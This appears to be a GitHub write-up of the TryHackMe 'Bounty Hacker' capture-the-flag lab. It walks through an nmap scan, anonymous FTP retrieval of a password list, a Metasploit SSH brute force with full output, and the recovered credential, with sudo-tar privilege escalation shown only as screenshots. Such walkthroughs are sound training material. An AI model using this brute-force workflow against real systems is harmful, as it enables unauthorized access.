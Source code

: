 # BountyHacker-CTF

![image](https://github.com/user-attachments/assets/f9c392dc-5fa7-45f5-8951-a2cb9ccbe3a4)

## Overview
We are tasked to "hack" into the target system and gain root privileges to reveal the user.txt and root.txt files.

## Tools Used
- nmap for scanning
- metasploit for ssh exploitation
- GTFOBINS for binary privilege escalation
  
## Skills Learned
- ftp file transfer
- port scanning
- privilege escalation using misconfigured sudo privileges
  
## Enumeration
### Nmap Scan
1. From the nmap scan I found that ports 21(FTP), 22(SSH), and 80(HTTP) were all open on the target machine.
```
$ nmap -p 21,22,80 -A bountyhacker.thm -v -Pn


21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.13.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
```

### FTP (Port 21)
1. I will continue by enumerating the FTP server. As seen in the above scan, anonymous logins are allowed. I used the anonymous login to
  access the server.
```
$ ftp bountyhacker.thm
Connected to bountyhacker.thm.
220 (vsFTPd 3.0.3)
Name (bountyhacker.thm:username): anonymous
230 Login successful.
```

2. Then I used the ls command to list the files on the ftp server. I saw that there is a locks.txt and a tasks.txt. I uploaded a copy of
   these to my local machine with the get command. (NOTE: I only display the task.txt get below, so just repeat for locks.txt)
```
ftp> ls -l
229 Entering Extended Passive Mode (|||49509|)
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt

ftp> get task.txt
local: task.txt remote: task.txt
229 Entering Extended Passive Mode (|||22524|)
ftp: Can't connect to `10.10.250.63:22524': Connection timed out
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |**************************************************************************************************************************|    68        1.23 KiB/s    00:00 ETA
226 Transfer complete.
```

3. Now moving over to my local machine, I read the contents of these two files. I found a note from a user named lin and the following
   textfile that seems to be a list of usernames. Maybe one of these is lin's password to the system.
```
$ cat locks.txt  
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
                                                                                                                                                                       
$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

## Exploitation
1. I assume that this list contains lin's password. So I decided to use Metasploit's ssh_login module to attempt a brute force with
   this password list. I set the proper parameters to the module and ran the exploit.
```
Basic options:
  Name              Current Setting                              Required  Description
  ----              ---------------                              --------  -----------
  ANONYMOUS_LOGIN   false                                        yes       Attempt to login with a blank username and password
  BLANK_PASSWORDS   false                                        no        Try blank passwords for all users
  BRUTEFORCE_SPEED  5                                            yes       How fast to bruteforce, from 0 to 5
  CreateSession     true                                         no        Create a new session for every successful login
  DB_ALL_CREDS      false                                        no        Try each user/password couple stored in the current database
  DB_ALL_PASS       false                                        no        Add all passwords in the current database to the list
  DB_ALL_USERS      false                                        no        Add all users in the current database to the list
  DB_SKIP_EXISTING  none                                         no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm
                                                                           )
  PASSWORD                                                       no        A specific password to authenticate with
  PASS_FILE         /home/kali/tryhackme/bountyhacker/locks.txt  no        File containing passwords, one per line
  RHOSTS            bountyhacker.thm                             yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-met
                                                                           asploit.html
  RPORT             22                                           yes       The target port
  STOP_ON_SUCCESS   true                                         yes       Stop guessing when a credential works for a host
  THREADS           1                                            yes       The number of concurrent threads (max one per host)
  USERNAME          lin                                          no        A specific username to authenticate as
  USERPASS_FILE                                                  no        File containing users and passwords separated by space, one pair per line
  USER_AS_PASS      false                                        no        Try the username as the password for all users
  USER_FILE                                                      no        File containing usernames, one per line
  VERBOSE           true                                         yes       Whether to print output for all attempts

msf6 auxiliary(scanner/ssh/ssh_login) > run
[*] 10.10.250.63:22 - Starting bruteforce
[-] 10.10.250.63:22 - Failed: 'lin:rEddrAGON'
[!] No active DB -- Credential data will not be saved!
[-] 10.10.250.63:22 - Failed: 'lin:ReDdr4g0nSynd!cat3'
[-] 10.10.250.63:22 - Failed: 'lin:Dr@gOn$yn9icat3'
[-] 10.10.250.63:22 - Failed: 'lin:R3DDr46ONSYndIC@Te'
[-] 10.10.250.63:22 - Failed: 'lin:ReddRA60N'
[-] 10.10.250.63:22 - Failed: 'lin:R3dDrag0nSynd1c4te'
[-] 10.10.250.63:22 - Failed: 'lin:dRa6oN5YNDiCATE'
[-] 10.10.250.63:22 - Failed: 'lin:ReDDR4g0n5ynDIc4te'
[-] 10.10.250.63:22 - Failed: 'lin:R3Dr4gOn2044'
[+] 10.10.250.63:22 - Success: 'lin:RedDr4gonSynd1cat3' 'uid=1001(lin) gid=1001(lin) groups=1001(lin) Linux bountyhacker 4.15.0-101-generic #102~16.04.1-Ubuntu SMP Mon May 11 11:38:16 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (10.6.13.3:38573 -> 10.10.250.63:22) at 2025-01-19 19:44:28 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
2. As seen above, the brute force was successful. Her credentials are lin:RedDr4gonSynd1cat3. I can now use these to SSH into her system
   and see how we can move further into the machine. I used the find command to search for the user.txt file and then read it with the
   cat command.
   
![image](https://github.com/user-attachments/assets/c1e575f7-49d3-4068-8e26-10de83b09fee)

## Privilege Escalation
1. The first thing I checked was the commands that lin can run with the sudo command. I saw that she has permission to use 'tar'.
   - sudo -l can be used to view the commands a user can run with sudo
     
![image](https://github.com/user-attachments/assets/c83daf18-20af-4313-b321-887e55ea7fbd)

2. I then went to https://gtfobins.github.io/gtfobins/tar/#sudo to see how I could potentially leverage the tar command to gain a root
   shell.
   
![image](https://github.com/user-attachments/assets/e5db6cf1-0d72-4e54-baf7-edea553cb1fc)

4. Using this command, I was able to successfully launch a root shell, search for root.txt, and read it as root.
   
![image](https://github.com/user-attachments/assets/7caeb4db-9b48-4962-9fda-69960f2aa5e1)
